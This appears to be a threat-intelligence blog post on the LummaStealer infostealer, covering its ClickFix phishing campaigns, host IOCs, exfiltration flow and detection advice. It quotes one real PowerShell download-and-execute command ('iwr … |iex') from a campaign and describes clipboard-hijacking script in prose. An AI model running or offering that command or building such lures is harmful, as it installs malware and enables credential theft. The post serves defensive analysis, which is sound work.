 ```yaml
---
layout: post
title:  "LummaStealer Overview - Russian InfoStealer"
date:   2025-08-10 21:00:00 +1000
categories: threat intel
---
```


<style>
  body { font-size: 16px; }
  body {font-family: 'Inter', sans-serif}
  h1 { font-size: 19px !important; }
  h2 { font-size: 17px !important; }
  h3 { font-size: 15px !important; }
</style>

### Overview

LummaStealer is a C prominent in-memory infostealer. Malware-as-a-service operation developed by "Shamel".

Lumma has been prominent since 2022 when it first appeared for sale. Up until May 2025 it has been smooth sailing. In May Microsoft blocked 2,300 domains related to Lumma's infra. Furthermore the DOJ seized Lumma's control panel. Microsoft identified that over 390,000 Windows host we're compromised at the time of the blocking. 

Perhaps Lumma's best feature. Is the ability for anyone and everyone to purchase logs that are stolen. So you buy Lumma and you have a direct place to steal the stolen logs. All you have to do is get it on a host in the first place.

![Lumma log sale](/images/log_sale.PNG)

### LummaStealer Recent Campaigns
Clickfix is the new phishing. Recent Lumma campaigns have compromised websites and injected malicious code that instructs users to run commands on there host.

An example of a clickfix command used in an actual Lumma campaign is the following
```iwr ct-humancheck[.]info|iex```

Breakdown of flags
- iwr (Invoke Web Request)
- iex (Invoke Expression). Means run code from the prior argument (domain)

Now this paired with a clickfix lure like this

![Copy Clipboard](/images/lumma_clickfix.PNG)

Would be pretty darn tempting. Especially if you we're perhaps paying for something/booking a table/accessing a website. You are just verifying you're human. Right?

The cool part about most clickfix attacks is that malicious .js embedded in the website can silently copy commands to your hosts clipboard.

- Function copyToClipboard copies specified command to hosts clipboard
- EventListener triggers copyToClipboard function when user clicks on the page

![Copy Clipboard](/images/clickfix_example.PNG)

### LummaStealer IOCs (22nd July 2025)
As LummaStealer is malware-as-a-service each group/individual that purchases Lumma will have there own ways for distributing the software. However, despite this there are some clear initial access TTPs that are consistent with Lumma. Furthermore, Lumma's behaviour when executed is also quite consistent. Although files created may be randomly generated with different hashes and IOCs are unscanned. The processes it chooses to inject in, APIs it calls and the directories that it creates files are the same.

Additionally. What makes Lumma and other MaaS operations so expensive is that they guarantee that hash is unrecognisable. Therefore, IOCs are unique to the campaign and quite often the machine. Infrastructure is also provided by Lumma. There are dedicated Lumma C2 servers that people who purchase the malware use as a control panel for infected hosts. These are regularly changing and are managed by Lumma. Because of this, maintaining an updated list of Lumma C2 IOCs is vitally important. Furthermore, creating YARA rules that detect Lumma behaviour is even better!

Lastly I'll add that going back and tracking old malware analysis samples and reports for Lumma I observed that the behaviour of the malware changes a lot. Calls different dlls, Windows APIs and uses different compilers. So whilst this might be relevant now, in a day or two it may not be.

Off track but a person at Mandiant told me they have observed APTs regularly querying VirusTotal to check whether a hash been scanned. As it's often the first step to an investigation, it's a great way to determine whether you've been detected in an environment.

Although Network IOCs are unique to each campaign, I'll still add them in. I'm not certain, but I'm highly confident Lumma would shuffle these regularly.

Here's a list of Lumma Network IOCs from May 2025 provided by Bitsight.
(Bitsight Lumma Stealer Network IOCs)[https://raw.githubusercontent.com/bitsight-research/threat_research/refs/heads/main/lumma/lumma_iocs.csv]

Host-based IOCs
- Tasklist
- Findstr
- Process injection (Particularly svchost.exe and explorer.exe)
- Masquerading as PowerShell
- Cvtres.exe creating malicious .tmps from the Temp directory in binary code (AppData\Local\Temp)
- Csc.exe creating malicious .dlls from the Temp directory in binary code (AppData\Local\Temp)
- Csc.exe executing suspicious .cmdline files from the Temp directory (AppData\Local\Temp)
- Startup folder persistence (AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\App.url)

### Data Exfilitration and C2 Channels
Data exfilitration for Lumma remains consistent for many variants. It seems beaconing and C2 persistence isn't the main goal. It is to silently grab and exfil data.
1. Malware detonates
2. Search here there and everywhere for sensitive information
3. Whack it into a .zip
4. Exfilitrate info
5. Attempt C2 persistence.

Lumma often hosts its domains behind CDN providers such as Bunny.net and DigitalOcean. This is beneficial as it masquerades as legitimate activity. A analyst eyeballing an alert might attribute it to CDN traffic and not bother properly triaging the alert. 

Lumma has also been seen whacking its domains behind CloudFlare IPs as discussed above. This again, gives an analyst less of a reason to think it's bad. Well because everyone uses CloudFlare to front their domains.

### How to detect Lumma?
Search for initial access TTPs.
- Clipboard events in EDR logs. Modern EDRs will record these events and often the process that copied to clipboard. 
- Git repos that users have pulled. Process creation events as a result of the command ```git pull``` and ```git clone```. Sort by repo. Biggest to smallest.

But having said all that. Here is some basic techniques to apply to an enterprise network to help detect/prevent Lumma. And all decent malware to be honest.
- SIEM alert for newly registered domains
- SIEM alert for process injection
- SIEM alert for abnormal processes reaching out to external domains
- SIEM alert for abnormal startup processes/reg keys
- Disable powershell for non-administrative users
- Do not whitelist password manager browser extensions
- Disable auto-saving passwords in browser
- Disable downloading exectuables from untrusted websites
- Application whitelisting
- Deploy EDR tools with behavioural analysis capabilities
- Educate users on clickfix attacks and malvertising
- Deploy BDR solution (SquareX)
